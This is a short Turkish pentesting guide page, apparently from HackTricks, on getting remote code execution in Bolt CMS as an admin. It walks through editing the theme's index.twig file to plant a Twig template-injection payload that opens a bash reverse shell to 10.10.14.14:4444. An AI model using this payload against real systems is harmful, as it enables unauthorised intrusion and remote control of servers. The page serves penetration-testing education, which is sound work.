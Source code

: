 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Admin olarak giriş yaptıktan sonra (giriş istemine erişmek için /bot adresine gidin), Bolt CMS'de RCE alabilirsiniz:

- `Configuration` -> `View Configuration` -> `Main Configuration` seçeneğini seçin veya URL yoluna `/bolt/file-edit/config?file=/bolt/config.yaml` gidin
- Tema değerini kontrol edin

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- `File management` -> `View & edit templates` seçeneğini seçin
- Önceki adımda bulunan tema tabanını seçin (`base-2021` bu durumda) ve `index.twig` seçeneğini seçin
- Benim durumumda bu URL yolunda /bolt/file-edit/themes?file=/base-2021/index.twig
- Bu dosyada [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php) ile yüklemenizi ayarlayın, örneğin: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- Ve değişiklikleri kaydedin

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- `Maintenance` -> `Clear the cache` seçeneği ile önbelleği temizleyin
- Sayfaya tekrar normal bir kullanıcı olarak erişin ve yükleme çalıştırılmalıdır

{{#include ../../banners/hacktricks-training.md}}
